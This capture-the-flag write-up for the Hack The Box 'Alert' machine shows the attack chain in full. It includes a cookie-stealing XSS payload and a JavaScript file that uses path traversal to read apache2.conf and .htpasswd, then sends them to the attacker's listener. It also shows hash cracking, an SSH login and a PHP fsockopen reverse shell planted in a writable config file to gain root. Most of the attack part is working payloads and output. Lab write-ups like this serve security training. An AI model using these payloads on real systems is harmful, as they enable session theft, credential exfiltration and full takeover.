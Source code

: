 # HTB Release Arena: Alert

![](../.gitbook/assets/d6657ac653fbaac0234f05d4af35f49d.png)

#### Port Scan

```shell
# Nmap 7.94SVN scan initiated Tue Nov 26 17:13:16 2024 as: /usr/lib/nmap/nmap --privileged -sC -sV -A -T4 -o port_scan 10.129.68.51
Nmap scan report for 10.129.68.51
Host is up (0.083s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   82.05 ms 10.10.14.1
2   82.72 ms 10.129.68.51

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 26 17:13:37 2024 -- 1 IP address (1 host up) scanned in 21.01 seconds

```

#### Enumeration

```shell
┌──(kali㉿kali)-[~/HTB/Alert]
└─$ ffuf -u http://alert.htb/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
------------------
┌──(kali㉿kali)-[~/Downloads]
└─$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://alert.htb:80/ -H 'Host: FUZZ.alert.htb' -fc 301 
```

![](../.gitbook/assets/66228c6986c50a98896388dd46fb4f38.png)

![](../.gitbook/assets/3e99db7c16fa89cd7881b6f9bcd8c411.png)

![](../.gitbook/assets/0ff1f90ec311458c467ff1983ed9bf33.png)

#### XSS

By **Contact Us** page we are able to perform XSS attack:

```html
<script>fetch('http://10.10.14.72:8090?cookie=' + document.cookie);</script>
```

![](../.gitbook/assets/fb83ae8d072b50c8decadbf1c5ff66c1.png)

Put the below script in a **.md** file:

```javascript
<script>
  // Fetch the content of the specified file
  fetch("http://alert.htb/messages.php?file=../../../../../../../etc/apache2/apache2.conf")
    .then(response => response.text()) // Convert the response to text
    .then(data => {
      // Send the fetched data to a specified server
      fetch("http://10.10.14.72:8888/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching the messages:", error));
</script>

<!-- <img src="http://alert.htb/visualizer.php?link_share=674658646fa912.41675821.md"/> -->
```

Meanwhile start a python http server:

```python
python -m http.server 8888
```

Then go to **Contact Us** page:

![](../.gitbook/assets/a52193d3f18d7809a6e50b7a962ece2c.png)

![](../.gitbook/assets/cdd35bee4acff7ccd34b801b04d00689.png)

```xml
%3Cpre%3E%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Falert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Falert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20RewriteEngine%20On%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5Ealert%5C.htb%24%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5E%24%0A%20%20%20%20RewriteRule%20%5E%2F%3F(.*)%24%20http%3A%2F%2Falert.htb%2F%241%20%5BR%3D301%2CL%5D%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20statistics.alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Fstatistics.alert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20Indexes%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%20%20%20%20AuthType%20Basic%0A%20%20%20%20%20%20%20%20AuthName%20%22Restricted%20Area%22%0A%20%20%20%20%20%20%20%20AuthUserFile%20%2Fvar%2Fwww%2Fstatistics.alert.htb%2F.htpasswd%0A%20%20%20%20%20%20%20%20Require%20valid-user%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3C%2Fpre%3E%0A
```

```xml
<pre><VirtualHost *:80>
    ServerName alert.htb
    DocumentRoot /var/www/alert.htb
    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>
    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
<VirtualHost *:80>
    ServerName statistics.alert.htb
    DocumentRoot /var/www/statistics.alert.htb
    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>
    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
</pre>

```

Now repeat the procedure trying to acces **.htpasswd** file, replacing the path in the script:

```bash
http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd
```

After retriggering the XSS from Contact Us form we'll get:

![](../.gitbook/assets/0ce3ad006a392dc1ffbef62788e9a149.png)

```html
%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24i******************
_______________
DECODED: 
<pre>albert:$apr1$*********Q/</pre>
```

Cracked it with haschat:

![](../.gitbook/assets/cfb06d3ecca98a143e24def872fd0428.png)

```shell
albert:m********
```

Login trough SSH into albert:

![](../.gitbook/assets/11d186566995b252209094ebcfe8f478.png)

```
userflag:de185f1ff*******************
```

#### Privilege Escalation

From netsat we can see that there is a service running on port **8080**

![](../.gitbook/assets/1f93c2b0faaa4ffaea0fe1e682483b78.png)

![](../.gitbook/assets/ffc9628049ccd5f84b8c7be1f07aa741.png)

![](../.gitbook/assets/6529bd7a5d44e49e4ff0cdaf0c3b5b03.png)

The file **/opt/website-monitor/config/configuration.php** is writeable:

![](../.gitbook/assets/13f3b82f37651b33769179083c64c6a8.png)

Add this line to **configuration.php**

```shell
$sock=fsockopen("10.10.14.72",9909);shell_exec("/bin/sh -i <&3 >&3 2>&3");
```

```shell
curl http://localhost:8080/config/configuration.php
---------------------------------------------------
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9909
listening on [any] 9909 ...
connect to [10.10.14.72] from (UNKNOWN) [10.129.161.22] 59662
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls
root.txt
scripts
# cat root.txt  
```

![](../.gitbook/assets/4ecc2194c78c07dbf8aa6e74d016a2d5.png)

```shell
rootflag:238a5640d5acdd*****************
```
